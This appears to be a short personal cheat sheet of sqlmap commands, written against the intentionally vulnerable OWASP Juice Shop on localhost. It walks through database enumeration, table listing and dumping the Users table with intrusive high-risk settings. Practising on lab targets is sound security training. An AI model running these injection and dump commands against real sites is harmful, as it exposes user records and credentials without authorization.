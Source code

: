 # Commands for SQLMAP

These examples are referencing OWASP Juice Shop where I performed an SQLite Dump

## Simple command 
`sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs`

--batch = auto answer defaults (so it doesn’t prompt you)
--dbs = enumerate databases

## List tables
``sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main --tables``

## Table Dump
`sqlmap -u "http://localhost:3000/rest/products/search?q=apple" -D main -T Users --dump`

## To test with more parameters for more dbs such as SQLLite use command
`sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --dbs --level=5 --risk=3`

**--level 5 → tests more parameters & payloads

--risk 3 → includes potentially intrusive/time-based payloads**

## To List the tables present within this db
`sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite --tables`

## For dump 
`sqlmap -u "http://localhost:3000/rest/products/search?q=apple" --batch --level=5 --risk=3 --dbms=SQLite -T Users --dump`

 After -T, add any table name parameter listed after viewing the table list.